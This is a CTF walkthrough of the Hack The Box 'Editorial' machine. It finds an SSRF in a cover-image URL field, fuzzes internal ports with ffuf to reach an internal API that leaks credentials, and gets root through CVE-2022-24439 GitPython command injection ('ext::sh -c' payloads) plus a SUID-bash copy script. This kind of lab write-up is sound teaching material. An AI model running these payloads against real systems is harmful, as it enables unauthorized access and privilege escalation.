This box is rated easy difficulty on HTB. It involves us using an SSRF vulnerability within the site's upload feature to fuzz for internal APIs. In doing, so we grab credentials for a user that work to login over SSH and viewing a past Git commit rewards us with another user's password. We find that they can run a script that utilizes GitPython as root to execute commands and grab a shell by cloning binaries.

## Scanning & Enumeration
As always, I begin with an Nmap scan against the target IP to find all running services on the host; Repeating the same for UDP returns no results.

```
$ sudo nmap -p22,80 -sCV 10.129.1.108 -oN fullscan-tcp

Starting Nmap 7.95 ( https://nmap.org ) at 2026-02-20 16:43 CST
Nmap scan report for 10.129.1.108
Host is up (0.061s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 0d:ed:b2:9c:e2:53:fb:d4:c8:c1:19:6e:75:80:d8:64 (ECDSA)
|_  256 0f:b9:a7:51:0e:00:d5:7b:5b:7c:5f:bf:2b:ed:53:a0 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://editorial.htb
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.79 seconds
```

There are just two ports open:
- SSH on port 22
- An nginx web server on port 80

Not a whole lot we can do over SSH without credentials so I fire up Gobuster to find subdirectories/subdomains in the background before heading over to the website. Default scripts show that the server redirects us to editorial.htb, so I add that to my /etc/hosts file. 

```
$ gobuster dir -u http://editorial.htb/ -w /opt/SecLists/directory-list-2.3-medium.txt 
===============================================================
Gobuster v3.8
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://editorial.htb/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /opt/SecLists/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.8
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/about                (Status: 200) [Size: 2939]
/upload               (Status: 200) [Size: 7140]
```

Checking out the landing page shows what looks like a site dedicated to publish books with the Tiempo Arriba Editorial company. There are a lot of dead links except for the header tabs.



The About page discloses the organization's email structure which may be helpful for a login panel down the road or to enumerate users.



## Server-Side Request Forgery
The only other directory on the website is the upload tab which allows us to supply information about our book so that the editorial can review it. I quickly test for HTML injection but it doesn't seem like the site reflects our input back to the screen, we also haven't found a login panel to make stealing cookies viable.



The most interesting part about this form is the option to supply a cover photo for our book using a URL or via the file upload. I played around with the file upload for a bit but couldn't get anything other than valid images to be accepted.

The presence of the URL field made me think that it wasn't just pulling from the local server and that we could host files from our machine in order for them to be displayed in the request. Testing this out confirms that the site is vulnerable to Server-Side Request Forgery by hitting the preview button.



A quick peek at a 404 page matches with the standard Python Flask text, so I first try to serve a reverse shell in hopes that the site would execute it once displayed, however this didn't pan out. We could still get the server to make arbitrary requests, so I decide to use the URL field to fuzz for any internal ports open by supplying it with a `localhost` IP.

### Fuzzing APIs
Capturing a request in Burp Suite and providing URLs such as `127.0.0.1` only make the application hang for a bit and then it would return the default picture for the preview icon. Some interesting behavior is that whenever providing a higher port that I know wouldn't return anything, the site instantly reverts to the default icon. This may suggest that on places like port 80 (the current website), it attempts to make a connection and can't reach the resource resulting in a timeout.

In any case, I end up copying the request to a file and creating a FFUF command to fuzz for ports that hang or don't instantly respond which could mean an internal API is running.



```
$ ffuf -u http://editorial.htb/upload-cover --request apifuzz.req -w <( seq 0 65535) --fl 6
```

Let's break down this command:
- `-u` provides the target URL to make the POST requests to.
- `--request` specifies which captured request file to use for headers and body data.
- `-w <( seq 0 65535)` pipes a set of sequential numbers into the wordlist option, allowing us to enumerate all port numbers (this is also done in memory instead of the filesystem which is a plus).
- `--fl` 6 will filter any responses that contain six lines



I get a hit back on port 5000 that responds with a size of 51. I make another request in my browser to that port and the preview image updates, so I open the picture in a new tab to download it and find the following JSON data:

```
{
  "messages": [
    {
      "promotions": {
        "description": "Retrieve a list of all the promotions in our library.",
        "endpoint": "/api/latest/metadata/messages/promos",
        "methods": "GET"
      }
    },
    {
      "coupons": {
        "description": "Retrieve the list of coupons to use in our library.",
        "endpoint": "/api/latest/metadata/messages/coupons",
        "methods": "GET"
      }
    },
    {
      "new_authors": {
        "description": "Retrieve the welcome message sended to our new authors.",
        "endpoint": "/api/latest/metadata/messages/authors",
        "methods": "GET"
      }
    },
    {
      "platform_use": {
        "description": "Retrieve examples of how to use the platform.",
        "endpoint": "/api/latest/metadata/messages/how_to_use_platform",
        "methods": "GET"
      }
    }
  ],
  "version": [
    {
      "changelog": {
        "description": "Retrieve a list of all the versions and updates of the api.",
        "endpoint": "/api/latest/metadata/changelog",
        "methods": "GET"
      }
    },
    {
      "latest": {
        "description": "Retrieve the last version of api.",
        "endpoint": "/api/latest/metadata",
        "methods": "GET"
      }
    }
  ]
}
```

That gives us a list of internal APIs to now make further requests to, the main ones of interest to me is everything under `/api/latest/metadata/messages/` since they could contain stuff other than technical details regarding the site's APIs.

Taking a peak into the Authors directory under the messages endpoint shows the standard template for the mail received upon granting a new author access to the internal forum and authors site. Luckily for us, there's a pair of credentials for the dev user which seems to be the default.



## Privilege Escalation
Using those to login over SSH works to grab a successful shell and we can start internal enumeration on the box to escalate privileges to root user. At this point we can also grab the user flag under our home directory.



Going about the usual routes for privesc to root user shows a few directories that may be of interest, namely `.git` under `/home` and `internal_apps` under `/opt`. I spend some time digging on these in hopes that a commit or config file holds hardcoded credentials.

Running git log under that directory shows a few commits, the most interesting one is the message disclosing a downgrade of the production environment from prod to dev. This could mean many things, like that something went awry or had sensitive data exposed.

Using a git diff command between that commit and a more recent one shows what information was changed. Similarly to the last password disclosure, this one contains credentials for the prod user which also work over SSH.



### GitPython Clone Command Injection
Restarting privesc enumeration for this user shows that we're able to run a python script that clones the production env as root user.



This script has a simple task to change directories into clone_changes under `/opt/internal_apps` and then use the user-supplied URL to clone from.

```
#!/usr/bin/python3

import os
import sys
from git import Repo

os.chdir('/opt/internal_apps/clone_changes')

url_to_clone = sys.argv[1]

r = Repo.init('', bare=True)
r.clone_from(url_to_clone, 'new_changes', multi_options=["-c protocol.ext.allow=always"])
```

Next, I check the Git version to see if it's vulnerable to any know exploits and find both GitDB and GitPython installed on the system.



A bit of digging explains that GitDB is a dependecy for GitPython, so I Google the ladder in order to find anything to use. This rewards us with many known vulnerabilities pertaining to our version, namely [CVE-2022–24439](https://nvd.nist.gov/vuln/detail/cve-2022-24439) which shows that all implementations of GitPython are inherently prone to Remote Code Execution via the URL parameter in the clone command. This is due to the library having a lack of sanitization in external calls to Git.

I discover a [Synk article](https://security.snyk.io/vuln/SNYK-PYTHON-GITPYTHON-3113858) with a PoC containing a similar line to the one in our clone script. 

```
from git import Repo
r = Repo.init('', bare=True)
r.clone_from('ext::sh -c touch% /tmp/pwned', 'tmp', multi_options=["-c protocol.ext.allow=always"])
```

Since our provided argument gets passed into the URL parameter, we can just extract the first portion of the command and see if it runs. 

```
sudo /usr/bin/python3 /opt/internal_apps/clone_changes/clone_prod_change.py 'ext::sh -c touch% /tmp/pwned'
```

This throws an error, however checking the `/tmp` directory shows a new file with root permissions confirming that we can run arbitrary commands as them. I'm going to have the clone command execute a script that will copy the bash binary to `/tmp` and give it an SUID bit so we're able to execute it as root instead of fumbling around with Git syntax.

**Shell.sh:**

```
#!/bin/bash

cp /bin/bash /tmp/hacked
chown root:root /tmp/hacked
chmod +s /tmp/hacked
```

Making sure that it's able to be executed, we can run the Sudo command while passing in our script to be ran as the argument.

```
sudo python3 /opt/internal_apps/clone_changes/clone_prod_change.py 'ext::sh -c /tmp/shell.sh'
```

Finally spawning a root shell with our new bash clone let's us grab the final flag under /root to complete this challenge.


That's all y'all, this box was a fun one as SSRF doesn't get enough love in CTFs. I hope this was helpful to anyone following along or stuck and happy hacking!
